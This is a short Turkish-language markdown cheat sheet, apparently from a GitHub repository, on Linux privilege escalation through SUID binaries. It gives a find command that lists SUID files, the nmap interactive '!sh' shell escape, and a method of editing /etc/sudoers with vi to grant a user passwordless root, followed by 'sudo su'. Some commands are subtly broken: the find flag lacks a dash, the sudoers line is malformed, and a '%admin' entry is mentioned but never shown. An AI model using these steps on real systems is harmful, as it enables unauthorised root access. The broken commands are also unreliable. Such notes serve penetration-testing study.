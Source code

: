 ## Suidbit İle Yetki Yükseltme

`find / -perm -4000 -exec ls lba {} \; 2> /dev/null`

Yukarıdaki komut sistemdeki **suidbite** sahip olan bütün dosyaları listeler.

### Nmap suidbit ile yetki yükseltme

```bash
nmap --interactive
!sh
```

### vi suidbit ile yetki yükseltme

`vi /etc/sudoers` dosyasını açıp kullanıcımıza `[kullanici_adi] ALL=(ALL:ALL) ALL NOPASSWD: ALL` şeklinde yetki ekliyoruz. Burada `%admin` ifadesi **admin** grubunu belirtir. Daha sonra **ESC** basıp `wq!` komutunu vi ye veridikten sonra `sudo su` diyerek **root** olabiliyoruz.

